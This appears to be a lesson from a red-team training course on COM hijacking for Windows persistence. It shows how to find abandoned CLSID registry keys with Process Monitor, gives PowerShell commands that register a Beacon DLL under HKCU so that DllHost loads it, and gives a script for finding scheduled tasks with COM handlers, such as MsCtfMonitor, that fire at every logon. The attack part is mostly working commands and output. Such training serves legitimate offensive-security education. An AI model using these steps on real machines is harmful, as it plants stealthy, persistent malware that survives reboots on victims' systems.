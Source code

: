 Instead of hijacking COM objects that are in-use and breaking applications that rely on them, a safer strategy is to find instances of applications trying to load objects that don't actually exist (so-called "abandoned" keys).  [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) is part of the excellent [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite). It shows real-time file system, registry and process activity and is very useful in finding different types of privilege escalation primitives.

It's more straight forward to hunt for hijacks on your own machine first, and then implement them on the actual target.  Launch _procmon64.exe_ on Attacker Desktop.

Due to the sheer number of events generated, filtering is essential to find the ones of interest. We're looking for:

- _RegOpenKey_ operations.
- where the Result is _NAME NOT FOUND_.
- and the Path ends with _InprocServer32_.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/57f/155/b0a/procmon-filter.png)

  

To speed the collection up you click random things, go into the Windows menu, launch applications etc. After a minute or so, I have ~500 events.  Most of them are from Explorer, some from 3rd party software and others from OS components.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/bb4/183/97d/procmon.png)

  

One aspect to look out for is the number of times a particular CLSID is loaded. If you hijack one that is loaded every couple of seconds, you're going to have a rough time - so it's well worth the additional effort to find one that's loaded semi-frequently but not so much so or loaded when a commonly used application (Word, Excel, Outlook, etc) is opened.

Scrolling through, I picked out this CLSID being loaded by _C:\Windows\System32\DllHost.exe_.
```
HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32
```
  

We can use some quick PowerShell to show that the entry does exist in HKLM, but not in HKCU.
```
PS C:\Users\Attacker> Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment


PS C:\Users\Attacker> Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32' because it does not exist.
```
  

To exploit this, we can create the necessary registry entries in HKCU and point them at a Beacon DLL.  Because this is still on our attacking machine, we'll point it straight at `C:\Payloads\http_x64.dll`.
```
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\Users\Attacker> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
PS C:\Users\Attacker> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
  

When _DllHost.exe_ loads this COM entry, we get a Beacon.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/c22/0d0/e0e/dllhost.png)

  

To clean-up a COM hijack, simply remove the registry entries from HKCU and delete the DLL.

Another great place to look for hijackable COM components is in the Task Scheduler. Rather than executing binaries on disk, many of the default Windows Tasks actually use Custom Triggers to call COM objects. And because they're executed via the Task Scheduler, it's easier to predict when they're going to be triggered. We can use the following PowerShell to find compatible tasks.
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
  

This script is rather self-explanatory and should produce an output similar to the following:
```
Task Name:  SystemSoundsService
Task Path:  \Microsoft\Windows\Multimedia\
CLSID:  {2DEA658F-54C1-4227-AF9B-260AB5FC3543}

Task Name:  MsCtfMonitor
Task Path:  \Microsoft\Windows\TextServicesFramework\
CLSID:  {01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}

Task Name:  Calibration Loader
Task Path:  \Microsoft\Windows\WindowsColorSystem\
CLSID:  {B210D694-C8DF-490D-9576-9E20CDBC20BD}

Task Name:  CacheTask
Task Path:  \Microsoft\Windows\Wininet\
CLSID:  {0358B920-0AC7-461F-98F4-58E32CD89148}
```
  

If we view the _MsCtfMonitor_ task in the Task Scheduler, we can see that it's triggered when any user logs in.  This would act as an effective reboot-persistence.

![](https://rto-assets.s3.eu-west-2.amazonaws.com/host-persistence/MsCtfMonitor.png)

  

Lookup the current implementation of {01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} in _HKEY_CLASSES_ROOT\CLSID_**.**
```
PS C:\> Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\MsCtfMonitor.dll
               ThreadingModel : Both
```
  

We can see it's another InprocServer32 and we can verify that it's currently implemented in HKLM and not HKCU.
```powershell
PS C:\> Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler


PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```
  

Now it's simply a case of adding a duplicate entry into HKCU pointing to our DLL (as above), and this will be loaded once every time a user logs in.